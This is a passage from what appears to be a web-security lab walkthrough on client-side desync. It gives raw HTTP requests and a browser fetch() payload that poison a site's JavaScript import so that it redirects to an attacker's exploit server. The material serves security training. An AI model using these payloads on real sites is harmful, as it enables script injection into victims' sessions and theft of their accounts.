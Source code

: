 4. Notice that you can turn this into an open redirect by using a protocol-relative path:

```html
GET //YOUR-EXPLOIT-SERVER-ID.exploit-server.net/eXpLoIt HTTP/1.1

HTTP/1.1 301 Moved Permanently
Location: //YOUR-EXPLOIT-SERVER-ID.exploit-server.net/eXpLoIt
```

Note that this is also a `301 Moved Permanently` response, which indicates that this may be cached by the browser.

5. On the login page, notice that there's a JavaScript import from `/resources/js/analytics.js`.
6. Go back to the pair of grouped tabs you used to identify the desync vector earlier.
7. In the first tab, replace the arbitrary `GET /hopefully404` prefix with a prefix that will trigger the malicious redirect gadget:

```html
POST /../ HTTP/1.1
Host: lab-id.web-security-academy.net
Cookie: _lab=YOUR-LAB-COOKIE; session=YOUR-SESSION-COOKIE
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: CORRECT

GET //YOUR-EXPLOIT-SERVER-ID.exploit-server.net/eXpLoIt HTTP/1.1
Foo: x
```

8. In the second tab, change the path to point to the JavaScript file at `/resources/js/analytics.js`.
9. Send the two requests in sequence down a single connection and observe that the request for the `analytics.js` file received a redirect response to your exploit server.

```html
GET /resources/js/analytics.js HTTP/1.1
Host: lab-id.web-security-academy.net

HTTP/1.1 301 Moved Permanently
Location: //YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit
```

### Replicate the attack in your browser

1. Open a separate instance of Chrome that is not proxying traffic through Burp.
2. Go to the exploit server.
3. Open the browser developer tools and go to the Network tab.
4. Ensure that the Preserve log option is selected and clear the log of any existing entries.
5. Go to the Console tab and replicate the attack from the previous section using the fetch() API as follows:

```html
fetch('https://lab-id.web-security-academy.net/..%2f', {
    method: 'POST',
    body: 'GET //YOUR-EXPLOIT-SERVER-ID.exploit-server.net/eXpLoIt HTTP/1.1\r\nFoo: x',
    credentials: 'include',
    mode: 'no-cors'
}).then(() => {
    location='https://lab-id.web-security-academy.net/resources/js/analytics.js'
})
```
